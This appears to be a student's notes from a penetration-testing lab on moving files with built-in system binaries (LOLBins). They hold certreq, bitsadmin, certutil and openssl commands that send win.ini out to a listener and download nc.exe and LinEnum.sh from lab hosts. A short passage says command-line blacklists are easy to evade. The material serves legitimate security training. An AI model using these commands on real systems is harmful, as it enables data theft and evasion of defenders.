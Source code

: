 The term LOLBins (Living off the Land binaries) came from a Twitter discussion on what to call binaries that an attacker can use to perform actions beyond their original purpose.

- [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/)
- [GTFOBins for Linux Binaries](https://gtfobins.github.io/)

Living off the Land binaries can be used to perform functions such as:

- Download
- Upload
- Command Execution
- File Read
- File Write
- Bypasses

Upload win.ini to our Pwnbox

`C:\htb> certreq.exe -Post -config http://192.168.49.128/ c:\windows\win.ini`

`XeroCyb3r@htb[/htb] sudo nc -lvnp 80`

`XeroCyb3r@htb[/htb] openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem`

`XeroCyb3r@htb[/htb] openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh`

`XeroCyb3r@htb[/htb] openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh`

`PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe`

`PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Windows\Temp\nc.exe"`

`C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`

# Detection

Command-line detection based on blacklisting is straightforward to bypass, even using simple case obfuscation.

Most client-server protocols require the client and server to negotiate how content will be delivered before exchanging information. This is common with the `HTTP` protocol. There is a need for interoperability amongst different web servers and web browser types to ensure that users have the same experience no matter their browser. HTTP clients are most readily recognized by their user agent string, which the server uses to identify which `HTTP` client is connecting to it, for example, Firefox, Chrome, etc.

User agents are not only used to identify web browsers, but anything acting as an `HTTP` client and connecting to a web server via `HTTP` can have a user agent string (i.e., `cURL`, a custom `Python` script, or common tools such as `sqlmap`, or `Nmap`)

This [website](http://useragentstring.com/index.php) is handy for identifying common user agent strings. A list of user agent strings is available [here](http://useragentstring.com/pages/useragentstring.php).

# Evading Detection
